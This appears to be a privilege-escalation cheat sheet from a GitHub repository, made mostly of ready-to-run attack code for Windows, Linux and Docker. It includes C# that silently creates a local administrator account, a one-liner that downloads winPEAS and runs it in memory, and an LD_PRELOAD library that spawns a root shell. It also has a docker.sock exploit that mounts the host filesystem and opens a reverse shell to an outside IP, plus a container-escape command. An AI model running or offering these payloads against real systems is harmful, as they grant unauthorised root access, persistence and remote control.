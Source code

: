 # Windows

## Privilege escalation scripts
### [Windows Privilege Escalation Awesome Scripts](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
### [PrivescCheck](https://github.com/itm4n/PrivescCheck)

## Windows OS privileges
### [Priv2Admin](https://github.com/gtworek/Priv2Admin)
### [PrivFu](https://github.com/daem0nc0re/PrivFu)



## Add a user to the local system - C#
- [Add a user to the local system - C#](https://docs.microsoft.com/en-us/troubleshoot/developer/visualstudio/csharp/language-compilers/add-user-local-system)
```csharp
// "C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe" /target:exe /r:"C:\Windows\Microsoft.NET\Framework\v4.0.30319\System.DirectoryServices.dll" Program.cs

using System;
using System.DirectoryServices;

class Class1
{
    static void Main(string[] args)
    {
        try
        {
            DirectoryEntry AD = new DirectoryEntry("WinNTc://" +
            Environment.MachineName + ",computer");
            DirectoryEntry NewUser = AD.Children.Add("admin", "user");
            NewUser.Invoke("SetPassword", new object[] {"#12345Abc"});
            NewUser.Invoke("Put", new object[] {"Description", "Test User from .NET"});
            NewUser.CommitChanges();
            DirectoryEntry grp;

            grp = AD.Children.Find("Administrators", "group");
            if (grp != null) {grp.Invoke("Add", new object[] {NewUser.Path.ToString()});}
            Console.WriteLine("Account Created Successfully");
            Console.ReadLine();
        }
        catch (Exception ex)
        {
            Console.WriteLine(ex.Message);
            Console.ReadLine();
        }
    }
}
```

## Unquoted Service Paths

### WMIC
```batchfile
cmd /c wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

### PowerShell
```powershell
$result = $null
$result = Get-WmiObject win32_service | Where-Object {($_.PathName -like '* *') -and ($_.PathName -notlike '*"*') -and ($_.PathName -notlike '*C:\Windows*')} | ForEach-Object { Write $_.PathName }
if ($result -ne $null) { Write $result | Sort -Unique } else { Write "Weak services were not found." }
```

### Specific service
```batchfile
sc qc "<service name>"
```

## [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe)
```powershell
# Get latest release
$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe"

# One liner to download and execute winPEASany from memory in a PS shell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
```

# Linux
## LD_PRELOAD
```c
// gcc -fPIC -shared -o shell.so shell.c -nostartfiles
// sudo LD_PRELOAD=/tmp/shell.so <suid_elf_or_scrip>
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/usr/bin/bash");
}
```

## [pspy - unprivileged Linux process snooping](https://github.com/DominicBreuker/pspy)

```sh
# print both commands and file system events and scan procfs every 1000 ms (=1sec)
./pspy64 -pf -i 1000 

# place watchers recursively in two directories and non-recursively into a third
./pspy64 -r /path/to/first/recursive/dir -r /path/to/second/recursive/dir -d /path/to/the/non-recursive/dir

# disable printing discovered commands but enable file system events
./pspy64 -p=false -f
```

# Docker
## [exploit-docker-sock.sh](https://gist.github.com/PwnPeter/3f0a678bf44902eae07486c9cc589c25)
```sh
#!/bin/bash

# you can see images availables with
# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
# here we have sandbox:latest

# command executed when container is started
# change dir to tmp where the root fs is mount and execute reverse shell

cmd="[\"/bin/sh\",\"-c\",\"chroot /tmp sh -c \\\"bash -c 'bash -i &>/dev/tcp/10.10.14.30/12348 0<&1'\\\"\"]"

# create the container and execute command, bind the root filesystem to it, name the container peterpwn_root and execute as detached (-d)
curl -s -X POST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$cmd,\"Binds\":[\"/:/tmp:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create?name=peterpwn_root

# start the container
curl -s -X POST --unix-socket /var/run/docker.sock "http://localhost/containers/peterpwn_root/start"
```

## [GTFOBins](https://gtfobins.github.io/gtfobins/docker/)
```sh
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

## Finding some interesting ports
```sh
grep -R "<port>" </opt>
```

